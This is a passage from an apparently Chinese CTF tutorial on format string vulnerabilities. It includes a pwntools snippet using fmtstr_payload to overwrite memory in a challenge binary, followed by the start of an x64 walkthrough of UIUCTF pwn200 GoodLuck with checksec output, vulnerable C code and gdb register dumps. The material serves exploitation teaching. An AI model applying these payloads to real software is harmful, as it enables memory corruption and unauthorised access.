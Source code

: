 ```python

p = process('./overwrite')
b_addr=0x0804A028
p.sendline(fmtstr_payload(6, {0x804A028:0x12345678}))

p.interactive()
```

<br/>

## 格式化字符串漏洞例子
64 位的偏移计算和 32 位类似，都是算对应的参数。只不过 64 位函数的前 6 个参数是存储在相应的寄存器中。

### x64格式化字符串漏洞
以[UIUCTF pwn200 GoodLuck](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2017-UIUCTF-pwn200-GoodLuck)为例

查看程序保护,开启了 NX 保护和部分 RELRO 保护
```bash
gnq@gnq:~/test$ checksec goodluck 
[*] '/home/gnq/test/goodluck'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
printf函数没有参数，存在格式化字符串漏洞，而题目需要利用格式化字符串漏洞的读取在栈中的flag
```c
 for ( j = 0; j <= 21; ++j )
  {
    v4 = format[j];
    if ( !v4 || v10[j] != v4 )
    {
      puts("You answered:");
      printf(format);      // 格式化字符串漏洞
      puts("\nBut that was totally wrong lol get rekt");
      fflush(_bss_start);
      return 0;
    }
  }
```
用gdb调试，在printf函数下个断点
```c
pwndbg> b printf
Breakpoint 1 at 0x400640
pwndbg> r
Starting program: /home/gnq/test/goodluck 
what's the flag
aaaa
```
查看寄存器和栈的状态
```c
 RAX  0x0
 RBX  0x0
 RCX  0x7ffff7b04380 (__write_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x7ffff7dd3780 (_IO_stdfile_1_lock) ◂— 0x0
 RDI  0x602830 ◂— 0x61616161 /* 'aaaa' */
 RSI  0x602010 ◂— 'You answered:\ng\n'
 R8   0x7ffff7fdc700 ◂— 0x7ffff7fdc700
 R9   0x7ffff7fdc701 ◂— 0x1000007ffff7fdc7
 R10  0x25b
 R11  0x7ffff7a62810 (printf) ◂— sub    rsp, 0xd8
 R12  0x4006b0 (_start) ◂— xor    ebp, ebp
```